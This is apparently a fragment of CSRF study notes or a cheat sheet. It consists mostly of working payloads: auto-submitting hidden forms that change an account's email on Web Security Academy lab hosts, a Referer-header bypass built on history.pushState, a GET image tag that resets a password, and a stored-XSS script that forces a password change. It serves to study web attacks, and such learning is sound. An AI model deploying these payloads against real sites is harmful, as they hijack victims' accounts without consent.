 - Basic payload 
```html
<html>
    <body>
        <h1>Hunter</h1>
        <iframe style="display:none" name="hidden-frame"></iframe>
        <form action="https://target-ac941f081e38bc8480279ef400d5002f.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="hidden-frame">
            <input type="hidden" name="email" value="hunter@test.com">
            <input type="hidden" name="csrf" value="UGakAH8DD3auYLXwt2KflE921dYAdtCf">
        </form>
        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

- Referrer Header bypass
```html
<html>
    <head>
    <!--push state func appending a relative path to the referrer header, here is a query param-->
    <script>history.pushState("", "", "/?{TARGET-DOMAIN}")</script>
    </head>
    <body>
        <h1>Hunter!</h1>
        <form action="https://0afa0013044e1bb781448e94006d00d0.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form">
            <input type="hidden" name="email" value="hunter6@test.ca">
        </form>
        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

- GET-CSRF
`<img src="https://email.example.com/set_password?new_password=this_account_is_now_mine">` as an image posted to a forum. This way, any user who views the forum page would be affected

- Using Stored XSS, an attacker can submit a stored-XSS payload there to make any forum visitor execute the attacker’s malicious script
```javascript
<script>
 document.body.innerHTML += "<form method="POST" action="https://email.example.com/set_password" id="csrf-form">
 <input type="text" name="new_password" value="this_account_is_now_mine">
 <input type='submit' value="Submit">
 </form>";
 document.getElementById("csrf-form").submit();
</script>
```

# Finding Your First CSRF!

